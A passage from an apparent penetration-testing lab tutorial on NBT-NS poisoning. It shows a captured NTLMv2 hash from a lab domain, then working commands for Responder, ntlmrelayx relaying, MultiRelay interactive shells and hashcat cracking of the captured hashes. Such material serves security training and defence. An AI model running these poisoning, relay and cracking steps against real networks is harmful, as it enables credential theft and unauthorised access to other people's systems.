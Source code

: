 ```
DESKTOP-USER::INLANEFREIGHT:1122334455667788:B79FBC36C36E3E2770CCA8FF356D77E7:0101000000000000003EB3BFDC09D801FC0373402C9060000000000
```

### Advanced NBT-NS Poisoning Techniques

#### NTLM Relay Attacks

Instead of just capturing hashes, you can relay them to other services using ntlmrelayx:

```bash
# First, disable SMB and HTTP servers in Responder.conf
# Set SMB = Off and HTTP = Off

# Start Responder
sudo python3 Responder.py -I eth0 -rdw

# In another terminal, start ntlmrelayx
sudo python3 ntlmrelayx.py -tf targets.txt -smb2support
```

Where `targets.txt` contains a list of IP addresses to relay authentication to.

#### Targeting Specific Services

You can configure Responder to target specific services:

```bash
# Target only SMB and disable other services
sudo python3 Responder.py -I eth0 -r --lm -v --disable-ess
```

#### Using MultiRelay for Interactive Sessions

For obtaining interactive shells:

```bash
# Start Responder with SMB and HTTP disabled
sudo python3 Responder.py -I eth0 -rdw

# Start MultiRelay.py in another terminal
sudo python3 MultiRelay.py -t 192.168.1.10 -u ALL
```

### Extracting and Cracking Captured Hashes

#### NTLMv2 Hash Cracking with Hashcat

```bash
# Extract hashes from Responder logs
cat Responder/logs/SMB-NTLMv2-SSP-*.txt > captured_hashes.txt

# Crack the hashes using hashcat
hashcat -m 5600 captured_hashes.txt /usr/share/wordlists/rockyou.txt --force
```
